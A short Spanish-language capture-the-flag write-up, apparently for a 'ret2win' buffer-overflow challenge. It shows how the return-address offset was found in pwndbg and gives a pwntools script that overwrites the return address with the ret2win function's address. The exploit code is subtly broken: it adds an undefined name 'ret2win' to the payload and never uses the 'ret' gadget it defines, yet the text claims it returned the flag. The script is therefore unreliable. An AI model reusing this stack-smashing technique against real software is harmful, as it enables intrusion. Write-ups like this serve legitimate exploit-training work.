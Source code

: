 Vemos como en el RSP tiene el valor de ```faaaaaaa``` asi que ahora con el comando ```cyclic -l faaaaaaa``` podemos saber el offset del RSP, y nos dio 40 (ese es el desplazamiento para llegar al RIP)

### Direccion de ret y ret2win

Para sacar la direccion de ```ret2win``` simplemente ponemos ```p ret2win``` y nos arroja:

```$1 = {<text variable, no debug info>} 0x400756 <ret2win>```

Y para la direccion de ```ret``` podemos usar la que nos indica el programa, o sacar un gadget con herramientas como ```Ropper```, pero me da flojera y usare la del programa que es ```0x400755```, y lo podemos ver en el pwndbg:

```► 0x400755 <pwnme+109>    ret    <0x6161616161616166>```

Con todo esto nuestro exploit queda asi:

```py
from pwn import *

proc = process("./ret2win")

buffer = b"A" * 32
rbp = b"B" * 8
ret = p64(0x400755)
rip = p64(0x400756) #direccion de ret2win

payload = buffer + rbp + rip + ret2win

proc.sendline(payload)
print(proc.recvall().decode())
```

Entonces lo ejecutamos y nos da la flag

![](/assets/img/ret2win/pwn.png)

Eso ha sido todo, gracias por leer ❤

